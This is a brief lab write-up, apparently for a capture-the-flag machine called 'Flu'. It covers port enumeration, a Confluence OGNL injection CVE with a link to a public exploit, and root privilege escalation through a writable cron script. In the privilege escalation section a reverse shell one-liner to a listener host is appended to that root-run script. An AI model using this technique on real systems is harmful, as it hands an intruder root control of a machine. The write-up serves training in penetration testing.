


# Flu - Intermediate, Linux

## Enumeration

* 22-ssh
* 8090 - http Apache Tomcat
* 8091 - jamlink 



* Confluence 7.13.6 is vulnerable to OGNL Injection (CVE-2022-26134).
   - https://github.com/jbaines-r7/through_the_wire/blob/main/README.md
   
## Initial Access



## Priv Esc

* Ran pspy to check root owned processes

```
chmod +x pspy64s
timeout 60s /tmp/pspy64s

2025/12/27 13:03:01 CMD: UID=0     PID=2765   | /bin/bash /opt/log-backup.sh 
2025/12/27 13:03:01 CMD: UID=0     PID=2766   | /bin/bash /opt/log-backup.sh 
2025/12/27 13:03:01 CMD: UID=0     PID=2767   | /bin/bash /opt/log-backup.sh 
2025/12/27 13:03:01 CMD: UID=0     PID=2768   | tar -czf /root/backup/log_backup_20251227130301.tar.gz /root/backup/log_backup_20251227130301                                                                             
```

* log-backup.sh is executed by root an we have write permissions in /opt.

```
confluence@flu:/opt$ ls -la
ls -la
total 756692
drwxr-xr-x  3 root       root            4096 Dec 12  2023 .
drwxr-xr-x 19 root       root            4096 Dec 12  2023 ..
drwxr-xr-x  3 root       root            4096 Dec 12  2023 atlassian
-rwxr-xr-x  1 root       root       774829955 Dec 12  2023 atlassian-confluence-7.13.6-x64.bin
-rwxr-xr-x  1 confluence confluence       408 Dec 12  2023 log-backup.sh
confluence@flu:/opt$ echo 'sh -i >& /dev/tcp/192.168.45.164/4444 0>&1' >> log-backup.sh
echo 'sh -i >& /dev/tcp/192.168.45.164/4444 0>&1' >> log-backup.sh
```

* We get root.
